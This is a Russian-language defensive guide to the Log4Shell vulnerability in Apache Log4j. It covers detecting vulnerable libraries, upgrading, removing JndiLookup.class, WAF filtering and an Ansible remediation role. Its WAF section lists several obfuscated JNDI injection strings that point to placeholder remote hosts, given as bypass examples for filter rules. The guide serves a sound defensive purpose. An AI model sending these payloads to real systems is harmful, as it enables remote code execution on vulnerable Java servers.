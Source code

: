 # Общее описание

Уязвимость в утилите журналирования Log4j от Apache Software Foundation [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

Уязвимость удаленного выполнения кода под названием Log4Shell получила максимальную оценку в 10 баллов по шкале CVSSv3, поскольку ее можно эксплуатировать удаленно, и особых технических навыков для этого не требуется. Критическая опасность связана с повсеместным присутствием утилиты Log4j почти во всех основных корпоративных приложениях и серверах на базе Java. Проблема затрагивает версии log4j между 2.0-beta-9 и 2.14.1. Уязвимость отсутствует в версии log4j 1 и исправлена в версии 2.15.0[^1]. В версии 2.15.0 по умолчанию был отключен лишь один аспект функционала JNDI по поиску сообщений. Теперь же вышло второе исправление [2.16.0](https://logging.apache.org/log4j/2.x/download.html), по умолчанию отключающее всю поддержку JNDI и полностью удаляющее обработку поиска сообщений.

Выпуск второго обновления был необходим, поскольку версию 2.15.0 по-прежнему можно проэксплуатировать при определенных незаводских конфигурациях. Данная проблема получила собственный идентификатор [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046). В связи с этим в версии [2.16.0](https://logging.apache.org/log4j/2.x/download.html) JNDI выключен. JNDI представляет собой API, используемый утилитой Log4j для извлечения объектов с удаленных серверов с целью их использования в записях журнала.

## Обнаружение уязвимой библиотеки

Для анализа проблемы на хосте необходимо выполнить поиск запущенных java процессов, и проверить не используют они уязвимую библиотеку.

!!! info "Для информации"
    Для поиска роль использует скрипт по Python из проекта [fox-it/log4j-finder](https://github.com/fox-it/log4j-finder). Так как в нем используется анализ не по имени файлов, а по md5 суммам версий библиотек. Что в значительной степени повышает надежность обнаружения. В том числе обнаружение идет и в runtime LXC (docker images).

## Устранение уязвимости

### Обновление версии

Очевидное и самое правильное решение обновить версию библиотеки до последнего доступного релиза. Обновление библиотеки выполняется совместно с обновлением приложения. Для этого необходимо дождаться новой версии приложения от разработчика.

!!! attention "Внимание"
    Обновление только библиотеки может привести к полной или частично неработоспособности приложения.

### Временное решение

Это комплекс мер которы снижает риски эксплуатации данной уязвимости, если отсутствует обновление или нет возможности его применить.

!!! attention "Внимание"
    Данные решения не решают проблему полностью, а только снижают риски.

* Удалить возможность Log4j выполнять поиски уязвимых запросов. Эта функция находится в JndiLookup.class, необходимо удалить данный класс из библиотеки Log4j.

!!! example "Удаление класса"
    ``` bash
    zip -q -d <path/filename>.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
    ```

!!! attention "Внимание"
    Также рекомендуется одновременно удалить другие классы, которые также могут быть использованы в этой или подобных атаках. Эти файлы включают JndiManager, JMSAppender и SMTPAppender. Имейте в виду, что удаление классов из среды выполнения может вызвать неожиданное поведение (полную или частичную неработоспособность приложения).

!!! attention "Внимание"
    Роль удаляет только JndiLookup класс из библиотеки.

!!! fail "Особое внимание"
    Не рекомендуется использовать удаление класса, так как может привести к полной или частично неработоспособности приложения.

* Добавьте правила WAF для блокировки вредоносных входящих запросов.

Правила WAF (Web Application Firewall) могут быть добавлены для фильтрации входящих запросов. Вот несколько примеров попыток атак в обход правил:

!!! example "Правила WAF"
    ``` text
    ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}  
    ${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}  
    ${jndi:rmi://adsasd.asdasd.asdasd}  
    ${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}  
    ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}  
    ${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://%s}  
    ```

!!! attention "Внимание"
    Обратите внимание, что на этот подход нельзя полагаться, поскольку злоумышленники каждый час создают новые цепочки атак, которые могут обойти эти правила. Возможно, придется добавить их вручную, новые правила для отклонения запросов на остове ализа журналов WAF, которые выглядят как злонамеренные атаки на эту уязвимость.

* В дополнение к правилам WAF, настроить запрет исходящих соединений по протоколу LDAP на межсетевом экране.

!!! attention "Внимание"
    Блокировать необходимо не LDAP порт, а пакеты протокола LDAP.

## Ansible роль

Для определения используемых уязвимых библиотек и исправления написана ansible роль:

* infra-service.log4j

!!! tip "Подсказка"
    Для создания закладки в браузере на данное руководство: ++ctrl+d++


  [^1]: Устранена частично, остается возможность вызвать отказ в обслуживание (Denial of Service).
 